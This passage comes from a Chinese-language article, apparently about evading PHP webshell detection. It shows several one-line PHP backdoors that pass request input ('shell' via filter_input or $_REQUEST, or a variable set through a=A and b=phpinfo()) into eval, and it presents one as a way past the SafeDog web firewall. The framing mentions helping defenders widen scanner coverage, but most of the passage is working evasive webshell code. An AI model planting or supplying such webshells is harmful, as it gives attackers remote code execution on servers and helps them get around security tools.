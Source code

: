 先外部传入a=A 定义A变量，再通过传入b=phpinfo();给A变量赋值，即可完成利用，因此这就要求安全人员尽可能尽可能覆盖所有的变量传播方式，同时这也是一个积累与完善的过程。

![](img/29.png)

**filter_input污染源绕过**

```php
<?php

$a = filter_input(INPUT_GET,'shell');

eval($a);

?>
```

filter_input也可以接受外部参数，如下例中通过传入参数`shell`即可执行代码。


![](img/30.png)

---

**过安全狗 且版本可>7.0**

**通过常量 **
```php
<?php
define("shell","$_REQUEST[shell]"); 
eval(shell);
?>
```
